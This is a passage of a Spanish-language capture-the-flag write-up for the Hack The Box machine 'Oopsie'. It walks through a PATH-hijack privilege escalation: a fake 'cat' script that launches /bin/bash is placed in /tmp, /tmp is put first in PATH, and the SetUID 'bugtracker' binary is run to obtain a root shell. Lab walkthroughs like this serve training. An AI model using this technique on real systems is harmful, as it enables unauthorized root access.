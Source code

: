 1. Cambio de directorio a `/tmp/`: `cd /tmp/`	

2. Creación de un archivo llamado `cat` en `/tmp/` que ejecutará `/bin/bash`: `echo '/bin/bash' > cat`

3. Cambio de permisos para hacer el archivo ejecutable: `chmod +x cat`

4. Modificación del PATH para que `/tmp/` tenga prioridad, de modo que el sistema ejecute el archivo `cat` de `/tmp/` en lugar del binario legítimo del sistema: `export PATH=/tmp:$PATH`

5. Verificación del nuevo PATH: `echo $PATH /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin`

	El directorio `/tmp/` ahora tiene prioridad en el **PATH**, lo que significa que cualquier comando ejecutado por el sistema primero buscará en `/tmp/` antes de buscar en las ubicaciones predeterminadas, como `/bin/`.

7.  Ejecución del comando `bugtracker`: Al ejecutar `bugtracker`, el sistema invoca el archivo `cat` desde `/tmp/`, que en realidad es un script que ejecuta `/bin/bash` con privilegios de root debido al SetUID de `bugtracker`.

8. Obtención de privilegios de root: Cuando el comando `bugtracker` se ejecuta, se ejecuta el archivo `cat` en `/tmp/` con privilegios de root, y el usuario es capaz de ejecutar comandos como root: `whoami && id root uid=0(root) gid=1000(robert) groups = 1000 (robert), 1001 (bugtracker)`

Una vez obtenido root en el sistema hemos finalizado la máquina y por ende terminamos la máquina:

![Oopsie yw4rf](../../../assets/HTB/Oopsie/oopsie-pwnd.png)